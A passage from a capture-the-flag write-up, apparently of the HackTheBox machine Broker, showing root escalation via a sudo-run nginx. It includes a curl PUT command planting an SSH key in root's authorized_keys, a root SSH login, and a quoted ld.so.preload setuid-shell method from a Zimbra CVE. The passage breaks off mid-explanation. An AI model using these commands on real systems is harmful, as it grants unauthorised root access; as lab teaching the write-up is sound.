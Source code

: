 If I use a PUT request instead, it’ll write what I send to the file:

```
activemq@broker:/dev/shm$ curl -X PUT localhost:1338/root/.ssh/authorized_keys -d 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing'

```

So this writes my public SSH key to root’s `authorized_keys` file.

Now I can SSH as root to Broker:

```
oxdf@hacky$ ssh -i ~/keys/ed25519_gen root@10.10.11.243
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-88-generic x86_64)
...[snip]...
root@broker:~#

```

### Load SO \[Alternative\]

#### Background

The author of this box modeled this part of the box after a a Zimbra vulnerability, [CVE-2022-41347](https://github.com/advisories/GHSA-w7p3-hmmp-qmx6). The issue is that this version of Zimbra left the zimbra user with the ability to run `sudo nginx`. The researcher who identified this vulnerability walks through it all in [this post](https://darrenmartynie.wordpress.com/2021/10/25/zimbra-nginx-local-root-exploit/). They show file read the same way I did, but to get a shell, they took a different path, which is interesting.

They create a nginx webserver running as root with the error log configured to overwrite the `ld.so.preload` file. From the `ld` [man page](https://linux.die.net/man/8/ld.so):

> `/etc/ld.so.preload`
> File containing a whitespace-separated list of ELF shared libraries to be loaded before the program.

So if I can then trigger an error message that includes the full path of a malicious library to include, that will be written into the file. Then any program executed will try to load that library (and a bunch of things that aren’t libraries, but that’s ok).

The steps the researcher lays out are as follows, and work with some modification:

> 1. Drop a `setuid(0);execve("/bin/sh"...)` rootshell to disk.
> 2. Drop a library containing a constructor that does chown/chmod on said rootshell binary, along with unlinking `/etc/ld.so.preload`.
> 3. Write an nginx config that runs as root, and has the error log set to `/etc/ld.so.preload`.
> 4. Run nginx with our config file, using sudo.
> 5. Request a URL containing some whitespace, and the path to our library file a couple of times. This will ensure that the string containing our library-path gets written out to the error log.
> 6. Call sudo, or any setuid binary really, to trigger some library loading as root and get our root shell created.
> 7. Run our root shell.

I’ll shorten this a bit:
